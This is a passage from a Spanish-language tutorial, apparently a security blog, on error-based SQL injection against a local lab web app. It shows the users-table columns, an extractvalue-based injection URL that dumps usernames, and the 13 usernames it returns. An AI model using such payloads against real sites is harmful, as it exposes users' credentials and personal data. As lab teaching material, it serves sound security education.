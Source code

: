 <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/sqli-error-based/lanzbSQLIERRORBASED-page5000-details-sqli-information_schema-columns-limit-0-1.png" style="width: 100%;"/>

Continuando la extracción, en total encontramos 7 columnas:

```sql
id
username
password_hash
favorite_game_genre
date_of_birth
account_creation_date
is_admin
```

Con esto sabemos que podemos llegar a extraer, nombres de usuario, contraseñas en formato hash, fechas de nacimiento, conocer si el usuario es administrador. Jmm, bastante información sensible.

## SQLi Error-Based - Valores [#](#explotacion-sqli-error-based-values) {#explotacion-sqli-error-based-values}

Como ya tenemos nombres de bases de datos, tablas y columnas de una de ellas, no es necesario usar más la metadata de [INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/8.3/en/information-schema.html), ahora emplearemos consultas sencillas y directas.

### Nombres de usuario [#](#explotacion-sqli-error-based-values-username) {#explotacion-sqli-error-based-values-username}

Por ejemplo, para conocer los nombres de usuario (`username`) guardados en la tabla `gamesatin_users` de la base de datos `gamesatin`, podemos usar:

```sql
SELECT username FROM gamesatin.gamesatin_users LIMIT 0,1;
```

Y enviaríamos la petición al sitio:

```html
http://localhost:5000/details?id=2 AND extractvalue(rand(),concat(0x3a,(SELECT username FROM gamesatin.gamesatin_users LIMIT 0,1)));#
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/sqli-error-based/lanzbSQLIERRORBASED-page5000-details-sqli-gamesatin-gamesatin_users-username-limit-0-1.png" style="width: 100%;"/>

Si recorremos las filas, extraemos 13 nombres de usuario:

```sql
admin
alina4
amAT
andersonA
andrea
angieAsy
anton1oL
fredDao_
g4merZhito
rubenGamer
saraLOX
toooooonyi
zonem1nd7atX
```
